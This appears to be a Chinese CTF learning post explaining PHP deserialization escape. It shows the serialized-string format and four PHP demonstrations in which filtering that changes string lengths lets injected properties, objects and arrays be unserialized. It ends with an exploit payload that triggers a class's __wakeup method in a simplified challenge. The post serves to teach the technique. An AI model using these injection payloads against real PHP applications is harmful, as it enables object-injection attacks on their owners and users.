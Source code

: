 最近在打一个ctf的时候，接触到php反序列化逃逸。



这个知识点挺有意思的



首先序列化字符串各个字符的含义

```text
类型	结构
String	s:size:value;
Integer	i:value;
Boolean	b:value;(1或0)
Null	N;
Array	a:size:{key definition;value definition;(repeated per element)}
Object	O:strlen(object name):object name:object size:{s:strlen(property name):property name:property definition;(repeated per property)}

例如：O:4:"user":2:{s:3:"age";i:18;s:4:"name";s:3:"LEO";}
O代表对象；4代表对象名长度；2代表2个成员变量；
```



先来看一段正常的php代码



# 知识点一-反序列化分隔符

**反序列化以;}结束，后面的字符串不影响正常的反序列化**

```php
<?php

class A
{
    public $v1 = "a";
}

//正常序列化
echo serialize(new A());
// O:1:"A":1:{s:2:"v1";s:1:"a";}


//反序列化以;}结束，后面的字符串不影响正常的反序列化
$b = unserialize('O:1:"A":1:{s:2:"v1";s:1:"a";}dasdasdasdasdasdsa');
var_dump($b);
/*object(A)#1 (1) {
["v1"]=>
  string(1) "a"
}*/
```

# 知识点二-属性逃逸

**一般在数据先经过一次serialize再经过unserialize，在这个中间反序列化的字符串变多或者变少的时候才有可能存在反序列化**

文字比较绕，看代码

```php
<?php

class A
{
    public $v1 = "abcsystem()";
    public $v2 = "123";
}

$data =  serialize(new A());
//O:1:"A":2:{s:2:"v1";s:1:"a";s:2:"v2";s:1:"b";}

$data = str_replace("system()","",$data);
//echo $data;
//O:1:"A":2:{s:2:"v1";s:11:"abc";s:2:"v2";s:3:"123";}
//这个地方 s:11,代表属性有11个字符串，但是实际上经过过滤以后只剩下abc三个字符串了，这里就存在php反序列化逃逸的问题


class B
{
    public $v1 = "abcsystem()system()system()";
    public $v2 = '1234567";s:2:"v3";s:1:"a";};';
}

$data =  serialize(new B());
$data = str_replace("system()","",$data);
echo $data."\n";
var_dump(unserialize($data));
/*O:1:"B":2:{s:2:"v1";s:27:"abc";s:2:"v2";s:28:"1234567";s:2:"v3";s:1:"a";};";}
object(B)#1 (3) {
  ["v1"]=>
  string(27) "abc";s:2:"v2";s:28:"1234567"
  ["v2"]=>
  string(28) "1234567";s:2:"v3";s:1:"a";};"
["v3"]=>
  string(1) "a"
}*/
```

成功逃逸出v3属性

# 知识点三-object逃逸

看代码

```
<?php

//object 反序列化逃逸
class A
{
    public $v1 = "systemsystemsystem123456";
    public $v2 = '1";s:2:"v3";O:1:"C":1:{s:1:"a";s:3:"123";}}';    // 准备逃逸的字符
}

class C{
    public $a = "1";
}

$a = new A();
$data = serialize($a);

$data = str_replace("system", "", $data);
echo $data."\n";
var_dump(unserialize($data));
/*O:1:"A":2:{s:2:"v1";s:24:"123456";s:2:"v2";s:43:"1";s:2:"v3";O:1:"C":1:{s:1:"a";s:3:"123";}}";}
object(A)#2 (3) {
  ["v1"]=>
  string(24) "123456";s:2:"v2";s:43:"1"
  ["v2"]=>
  string(43) "1";s:2:"v3";O:1:"C":1:{s:1:"a";s:3:"123";}}"
["v3"]=>
  object(C)#3 (1) {
  ["a"]=>
    string(3) "123"
  }
}*/
```

# 知识点四-数组逃逸

以碰到的ctf题目来进行讲解

题目化简后如下

```php
<?php

class A
{
    public function __wakeup()
    {
        echo "flag";
    }
}

$post = $_POST;
$data = serialize($post);
$serialize_data=  preg_replace('/s:/', 'S:', $data) . "\n";
unserialize($serialize_data);
```

这里会把反序列化字符串中的s替换成S，然后你会发现并没有什么异常，一样可以正常反序列化。

实际上是不一样的

小s，反序列化字符串

`s:1:"a";s:3:"123";`

大S，反序列化字符串中的值可以用十六进制进行表示

`s:1:"a";S:1:"/00";`

我们在输入的输入中，传输`/00`字符串，在经过程序过滤以后会将这种字符串看成一个字符串从而造成了反序列化逃逸

另外要注意一下数组反序列化的格式和object的格式有点不一样

**Array	a:size:{key definition;value definition;(repeated per element)}**

exp

```php
<?php

class A
{
    public function __wakeup()
    {
        echo "flag";
    }
}

$post = $_POST;
$data = serialize($post);
$serialize_data=  preg_replace('/s:/', 'S:', $data) . "\n";
unserialize($serialize_data);

//$a = new A();
//echo serialize($a);
//exit();

$post = array("a" => '\00\00\00\00\00\00\00',
    'S:1:"a";S:1:"a";O:1:"A":0:{}}' => '',
);

$serialize_data = serialize($post);
echo $serialize_data . "\n";;
//a:2:{s:1:"a";s:21:"\00\00\00\00\00\00\00";s:29:"S:1:"a";S:1:"a";O:1:"A":0:{}}";s:0:"";}

$serialize_data=  preg_replace('/s:/', 'S:', $serialize_data) . "\n";
echo $serialize_data;
//a:2:{S:1:"a";S:21:"\00\00\00\00\00\00\00";S:29:"S:1:"a";S:1:"a";O:1:"A":0:{}}";S:0:"";}

$data = unserialize($serialize_data);
var_dump($data);
/*array(1) {
    ["a"]=>
  object(A)#1 (0) {
  }
}*/
```

